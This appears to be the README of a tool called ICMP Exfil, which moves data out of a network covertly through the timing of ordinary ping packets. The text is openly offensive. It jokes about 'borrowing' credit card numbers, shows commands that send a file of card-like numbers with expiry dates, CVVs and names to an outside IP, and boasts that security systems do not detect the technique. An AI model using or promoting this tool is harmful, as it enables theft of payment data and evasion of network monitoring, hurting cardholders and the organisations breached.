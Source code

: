 # ICMP Exfil

ICMP Exfil allows you to transmit data via valid ICMP packets. You use the client script to pass in data you wish to exfiltrate, then on the device you're transmitting to you run the server. Anyone watching-- human or security system-- will just see valid ICMP packets, there's nothing malicious about the structure of the packets. Your data isn't hidden inside the ICMP packets either, so looking at the packet doesn't tell you what was exfiltrated. 

![Screen Shot](https://image.ibb.co/hRrvDm/exfil.png)



# ASCII

Right now, the only thing I've added support for is ASCII characters. You will be able to exfiltrate anything that can be represented in ASCII characters (e.g. letters and numbers). For example: you borrowed some cool 16 digit numbers, well you'd use the client script to pass those numbers to your server by doing ```./ping.py --ascii "4111111111111111"```.

# Sending to server

You have two options for setting the server to send to. You can either use the **-\-ip** or you can set the default IP in the script called **ipToPing**.

# Wait

If you want to be a little more patient, and make it harder for people to notice you're exfiltrating data you can use **--wait** to specify the amount of min time + the time that's supposed to pass for the data to transfer. This is still being worked on... so you'll need to do this conversion yourself, but shouldn't take long for me to add... also doesn't matter too much since most people and security systems don't even detect this yet. 

# Verbose

If you would like to see the pings going through you can use the **-\-show**.

# Start/Stop Server

When you want to start the server you just do ```sudo python3 server.py```. You don't need to do anything else. When you're done, you just need to do **Control+C**. Right now the server needs work, it needs to map the input based on who they recived the data from, right now I only have it tested with one client pinging the server, this of course needs to be tuned. The groundwork is already there, just need to get the reset put together. 
# Example
I found a database full of these cool 16 digit numbers, I need to save them for futher research so I save them to a file called **file**:
**Command**:```./ping.py --ip 1.2.3.4 --asciiFile file```
**File Content**: ```4587965312457852 01/15 456 Martino Jones | 4567965382457452 03/16 236 Martino Joe```
**Encoded Data**: ```['0110100', '0110101', '0111000', '0110111', '0111001', '0110110', '0110101', '0110011', '0110001', '0110010', '0110100', '0110101', '0110111', '0111000', '0110101', '0110010', '0100000', '0110000', '0110001', '0101111', '0110001', '0110101', '0100000', '0110100', '0110101', '0110110', '0100000', '1001101', '1100001', '1110010', '1110100', '1101001', '1101110', '1101111', '0100000', '1001010', '1101111', '1101110', '1100101', '1110011', '0100000', '1111100', '0100000', '0110100', '0110101', '0110110', '0110111', '0111001', '0110110', '0110101', '0110011', '0111000', '0110010', '0110100', '0110101', '0110111', '0110100', '0110101', '0110010', '0100000', '0110000', '0110011', '0101111', '0110001', '0110110', '0100000', '0110010', '0110011', '0110110', '0100000', '1001101', '1100001', '1110010', '1110100', '1101001', '1101110', '1101111', '0100000', '1001010', '1101111', '1100101', '0001010']```
**Server**:
```
Calculating offsets


4 5 8 7 9 6 5 3 1 2 4 5 7 8 5 2   0 1 / 1 5   4 5 6   M a r t i n o   J o n e s   |   4 5 6 7 9 6 5 3 8 2 4 5 7 4 5 2   0 3 / 1 6   2 3 6   M a r t i n o   J o e 
```
# TODO
If you would like to help there are a number of things I still need to add:
- Transmit Binary files, can just read in the file as binary and won't need to encode.
- Allow passing in the server the offset, in case you want to make the window bigger or smaller, especially useful over very poor connections.
- Print mapping of IP to DATA when done.
- Allow quiet server.
- Allow showing data as it comes in, a little more tricky, but just requires some on the fly offset calculations.
- More things as they come to mind ;-)